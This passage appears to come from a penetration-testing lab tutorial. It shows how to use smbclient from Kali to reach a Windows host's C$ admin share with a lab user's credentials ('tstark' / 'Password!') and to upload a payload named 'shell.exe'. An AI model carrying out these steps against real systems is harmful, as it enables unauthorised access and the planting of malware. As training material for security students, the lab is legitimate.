 2. Next, use SMBClient in Kali to interact with the Windows machine's file system over SMB. To connect to the remote filesystem, type `smbclient //172.22.117.20/C$ -U megacorpone/tstark`.

    - This connects to the `C` drive on the remote machine as the user `tstark`. 

3. You will then be asked for a password. Input `tstark`'s password: `Password!`

4. List the files in the current directory using the following command:

    - `ls`

    ![A screenshot depicts the results of the command.](Images/smbclient.PNG)

5. Upload your payload via the following command:

    - `put shell.exe`

    ![A screenshot depicts the results of the command.](Images/put.png)
